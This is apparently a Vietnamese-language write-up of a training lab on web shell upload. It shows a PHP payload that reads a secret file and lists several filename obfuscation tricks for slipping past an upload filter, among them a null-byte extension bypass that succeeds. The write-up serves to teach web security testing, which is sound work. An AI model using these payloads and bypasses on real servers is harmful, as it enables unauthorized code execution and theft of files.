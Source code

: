 ## Web shell upload via obfuscated file extension

1. Sau khi đăng nhập, upload thử file ``payload.php`` có nội dung
- ```<?php echo file_get_contents('/home/carlos/secret'); ?>```

2. Nhận được thông báo lỗi rằng server chỉ cho phép các file JPG, PNG

3. Dựa vào mô tả của lab, ta sẽ thử dùng một số kỹ thuật obfuscate bằng cách thay đổi tên file ``payload.php`` thành:
- ``payload.php.jpg``
- ``payload.p.phphp``
- ``payload.php.``
- ``payload%2Ephp``
- ``payload.php%00.jpg``

-> Nhận thấy với filename = ``payload.php%00.jpg`` thì server trả lại thông báo ``The file avatars/payload.php has been uploaded`` 

![Img1](\asset/../img/successful_upload.png)

4. Truy nhập path ``/files/avatars/payload.php`` nhận được secret của Carlos

![Img2](\asset/../img/done.png)